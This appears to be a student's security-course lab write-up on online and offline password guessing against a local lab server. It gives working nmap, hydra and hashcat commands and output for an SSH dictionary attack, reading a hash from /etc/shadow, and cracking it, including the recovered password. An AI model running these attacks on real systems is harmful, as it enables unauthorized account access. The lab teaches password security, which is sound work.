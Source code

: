 # Lab 5 - Online and Offline Password Guessing

## Setup

1. Check we are connected to the local server

```bash
ping a507-server.local
```

1. Install `nmap` 

```bash
sudo apt-get install nmap
```

1. Install `hydra`

```bash
sudo apt-get install hydra
```

1. Install `hashcat`

```bash
sudo apt-get install hashcat
```

1. Download dictionaries (for online and offline attacks) from local server

## Online attack

1. Use `nmap` to scan the ports within the target address range

```bash
nmap -v 10.0.15.0/28
```

1. We can see that our target port has the `ssh` port (22) open

```bash
Nmap scan report for 10.0.15.1
Host is up, received conn-refused (0.0014s latency).
Scanned at 2022-01-04 11:48:32 CET for 17s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
```

1. We try to connect to that IP address but we can see we need a password
2. Now we will try to guess the password. With brute forcing it will take a long time, around 9 years. We can see that by running the hydra command with the next parameters
    1. lowercase letters
    2. 4-6 letters

```bash
hydra -l kastelan_tonino-x 4:6:a 10.0.15.1 -V -t 1 ssh
```

1. Lets’ now try to run hydra with a dictionary

```bash
hydra -l kastelan_tonino -P dictionary_online.txt 10.0.15.1 -V -t 4 ssh
```

1. Now we see the password will be quickly found. After it finds we can see the password is `ofthei`

```bash
[22][ssh] host: 10.0.15.1   login: kastelan_tonino   password: ofthei
```

1. We can now log in to the server using `ssh` and the password we found

```bash
ssh kastelan_tonino@10.0.15.1
```

## Offline attack

1. When we are logged in to the server we need to get the hash of the password to test our offline attack methods.
2. We can find our password hash inside `/etc/shadow` file:

```bash
kastelan_tonino:**$6$057ZnZ2fmazqC.0e$1Lc.YKIkaOLhzkfevlKzsoGotsbAj8lUPqerJOJuJRc7qfOxyCVYwwpzeZmYpkuXRfgeaGKxBAVaD35HVwRKf0**:18996:0:99999:7:::
```

1. We take the hash from there and save it locally to a file called `hash.txt`
2. Now we will use `hashcat` to try to crack the password offline without and with a dictionary. We can see that without a dictionary it will take a lot of time

```bash
Session..........: hashcat
Status...........: Running
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$057ZnZ2fmazqC.0e$1Lc.YKIkaOLhzkfevlKzsoGotsbAj8l...VwRKf0
Time.Started.....: Tue Jan  4 11:25:33 2022 (7 secs)
Time.Estimated...: **Thu Jan 20 11:18:38 2022** **(15 days, 23 hours)**
Guess.Mask.......: ?l?l?l?l?l?l [6]
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:      224 H/s (6.55ms)
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 1408/308915776 (0.00%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 0/11881376 (0.00%)
Candidates.#1....: darier -> djurer
HWMon.Dev.#1.....: N/A
```

1. Using a dictionary this operation is sped up a lot. Lets’ try with a offline dictionary

```bash
hashcat --force -m 1800 -a 0 hash.txt dictionary_offline.txt --status --status-timer 10
```

1. We can now see that `hashcat` found the password

```bash
**$6$057ZnZ2fmazqC.0e$1Lc.YKIkaOLhzkfevlKzsoGotsbAj8lUPqerJOJuJRc7qfOxyCVYwwpzeZmYpkuXRfgeaGKxBAVaD35HVwRKf0:ofthei**

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$057ZnZ2fmazqC.0e$1Lc.YKIkaOLhzkfevlKzsoGotsbAj8l...VwRKf0
Time.Started.....: Tue Jan  4 11:27:22 2022 (8 secs)
Time.Estimated...: Tue Jan  4 11:27:30 2022 (0 secs)
Guess.Base.......: File (dictionary_offline.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:      237 H/s (6.46ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 2080/50072 (4.15%)
Rejected.........: 0/2080 (0.00%)
Restore.Point....: 1920/50072 (3.83%)
Candidates.#1....: kelzkj -> kkpgkt
HWMon.Dev.#1.....: N/A
```